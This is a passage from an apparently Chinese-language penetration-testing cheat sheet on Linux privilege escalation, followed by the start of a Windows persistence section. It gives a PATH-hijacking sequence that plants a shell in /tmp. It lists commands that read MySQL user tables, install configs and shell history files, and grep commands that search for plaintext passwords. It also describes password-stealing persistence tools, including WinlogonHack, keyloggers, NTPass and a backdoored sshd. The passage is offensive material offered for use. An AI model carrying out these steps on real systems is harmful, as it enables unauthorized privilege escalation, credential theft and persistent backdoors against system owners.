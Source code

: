 #### 环境变量

```
cd /tmp
echo “/bin/sh” > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

[Linux环境变量提权 - 先知社区)](https://xz.aliyun.com/t/2767)

#### 系统服务的错误权限配置漏洞

```
cat /var/apache2/config.inc
cat /var/lib/mysql/mysql/user.MYD
cat /root/anaconda-ks.cfg
```

#### 不安全的文件/文件夹权限配置

```
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
cat ~/.php_history
```

#### 找存储的明文用户名，密码

```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" # Joomla
```

# 13.权限维持

## Windows

##### 1、密码记录工具

WinlogonHack WinlogonHack 是一款用来劫取远程3389登录密码的工具，在 WinlogonHack 之前有 一个 Gina 木马主要用来截取 Windows 2000下的密码，WinlogonHack 主要用于截 取 Windows XP 以及 Windows 2003 Server。 键盘记录器 安装键盘记录的目地不光是记录本机密码，是记录管理员一切的密码，比如说信箱，WEB 网页密码等等，这样也可以得到管理员的很多信息。 NTPass 获取管理员口令,一般用 gina 方式来,但有些机器上安装了 pcanywhere 等软件，会导致远程登录的时候出现故障，本软件可实现无障碍截取口令。 Linux 下 openssh 后门 重新编译运行的sshd服务，用于记录用户的登陆密码。

##### 2、常用的存储Payload位置
